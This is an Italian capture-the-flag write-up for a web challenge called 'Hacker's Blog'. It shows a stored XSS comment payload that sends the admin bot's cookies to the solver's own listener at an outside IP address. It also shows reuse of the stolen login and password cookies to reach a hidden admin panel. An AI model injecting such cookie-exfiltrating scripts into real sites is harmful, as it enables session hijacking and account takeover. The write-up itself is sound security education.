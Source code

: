 ```yaml
---
layout: post
title:  "Juniors2016 - Hacker's Blog"
date:   2016-12-14 03:15
categories: [Juniors2016]
tags: [Web]
author: jbz
---
```


*PREMESSA: per accedere a questa challenge bisognava utilizzare una VPN fornita dagli organizzatori.*

Veniva dato un sito web, `http://10.0.7.216:54337`: un blog.

Cliccando su uno dei post ho notato che l'URL era il canoninco `post.php_id=<id>`. Ho provato a forzare un errore SQL ma non era vulnerabile.

Ho notato che i vari post permettevano commenti. Ho provato ad inserire un commento e mi veniva restituito un errore in russo che tradotto diceva:

> Un amministratore deve confermare il commento.

Ho pensato quindi che il sito potrebbe essere vulnerabile a Cross Site Scripting.

Ho guardato il sorgente della pagina e ho notato questo commento:

`<!-- Secret admin panel: aHR0cDovLzEwLjAuNy4yMTY6NTQzMzcvYWRtaW42NDY0MS5waHA= -->`

Che decodificato restituisce:

`http://10.0.7.216:54337/admin64641.php`

Sono andato a quell'indirizzo e mi veniva restituito un errore (sempre in russo) che tradotto era:

> Username e password sbagliati.

Ho postato quindi un commento con questo payload (10.3.2.2. era il mio indirizzo IP):

```html
<script>document.write('<img src=http://10.3.2.2:8000/?' + document.cookie +'>')</script>
```

Ho scoperto che il cookie del bot era `login=admin`. Ho impostato il cookie, sono tornato nella pagina admin che ho trovato in precedenza, ma purtroppo ottenevo lo stesso errore.

Ho provato quindi un altro payload, per recuperare `document.location` ed ho ottenuto l'indirizzo `http://10.0.7.216:54337/bot_check.php?check=4e195228ec31dd6f3fef492`. Ho fatto una richiesta a quell'indirizzo e ho notato che il webserver mi ha settato due cookie:

```
Set-Cookie: login=admin; expires=Mon, 05-Dec-2016 19:35:19 GMT; path=/
Set-Cookie: password=e0377f6e85d987d81e96c0381c789360fe90547bdf9be3b5082a492b9c4184f7; expires=Mon, 05-Dec-2016 19:35:19 GMT; path=/
```

Con questi cookie, sono tornato alla pagina admin che ho trovato in precedenza ed ho ottenuto la flag:

> Флаг:
>
> 1true_haCkeers1337_XSS
